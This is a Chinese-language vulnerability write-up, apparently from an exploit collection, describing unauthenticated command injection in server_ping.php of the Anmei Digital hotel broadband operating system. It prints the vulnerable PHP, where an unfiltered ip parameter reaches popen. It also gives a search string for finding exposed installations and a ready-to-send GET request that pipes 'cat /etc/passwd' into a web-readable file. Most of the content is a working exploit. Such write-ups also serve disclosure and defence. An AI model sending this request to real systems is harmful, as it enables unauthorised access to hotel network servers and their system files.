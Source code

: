# 安美数字 酒店宽带运营系统 server_ping.php 远程命令执行漏洞

# 漏洞描述

安美数字 酒店宽带运营系统 server_ping.php 存在远程命令执行漏洞，漏洞文件中ip参数未过滤造成命令执行

## 漏洞影响

<a-checkbox checked>安美数字 酒店宽带运营系统</a-checkbox></br>	

## 网络测绘

<a-checkbox checked>"酒店宽带运营"</a-checkbox></br>

## 漏洞复现

登录页面如下



![img](../../../.vuepress/public/img/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10-20220313150127894.png)



存在漏洞的文件为 `server_ping.php`

```php
<?
if (!isset($ip) || $ip == "" || !isset($id) || $id == "") exit;

$cmd = "ping -c 2 -s 65 $ip";
$fp = popen($cmd, "r");
$getString = "";
if ($fp) {
	while (($line = fgets($fp, 512))) {
		$getString .= trim($line);
	}
	pclose($fp);
	
}

if (strstr($getString, "2 received, 0%")) {
	echo "<html><body><script language=\"javascript\">\n";
	echo "parent.doTestResult('$id', 'ok');\n";
	echo "</script></body></html>\n";
} else {
	echo "<html><body><script language=\"javascript\">\n";
	echo "parent.doTestResult('$id', 'no');\n";
	echo "</script></body></html>\n";
}
?>
```

```plain
$cmd = "ping -c 2 -s 65 $ip";
$fp = popen($cmd, "r");
```

GET传入 `$ip参数` 后直接命令执行，并且文件无权限要求

请求包为

```plain
GET /manager/radius/server_ping.php?ip=127.0.0.1|cat%20/etc/passwd>../../test.txt&id=1 HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.93 Safari/537.36
```

![img](../../../.vuepress/public/img/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10-20220313150127920.png)



